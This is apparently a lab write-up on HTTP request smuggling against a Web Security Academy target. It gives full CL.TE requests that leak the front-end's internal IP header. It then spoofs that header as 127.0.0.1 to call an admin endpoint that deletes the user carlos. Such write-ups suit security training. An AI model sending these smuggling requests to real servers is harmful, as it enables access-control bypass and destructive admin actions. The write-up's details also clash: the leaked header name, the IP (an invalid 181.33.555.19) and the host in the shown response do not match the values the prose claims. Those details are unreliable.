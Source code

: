 So we craft our attack req and send it:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 107 # 107 includes everything up until `search=attack`
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 163

search=attack
```

And we now send our norm req:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

search=norm
```
And in the response to the normal req we get:
```bash
...
<section class=blog-header>
<h1>0 search results for 'attackPOST / HTTP/1.1
X-uGpbjy-Ip: 181.33.555.19 # 181.33.555.19 is the ip of the user who makes the req
Host: 0a02002304de9483800fb2810024008e.web-security-academy.net
Content-Type: application/x-www-form-url'</h1>
<hr>
</section>
...
```
So we smuggled the beginning of the subsequent request and we see that the frontend server is using `X-qRjKfQ-Ip: 194.44.253.30`

We can now use that header to access admin panel, by changing its value to 127.0.0.1:
So our attack req that deletes carlos:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 145 # 145 is total length, including `x=`
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
X-qRjKfQ-Ip: 127.0.0.1

x=
```
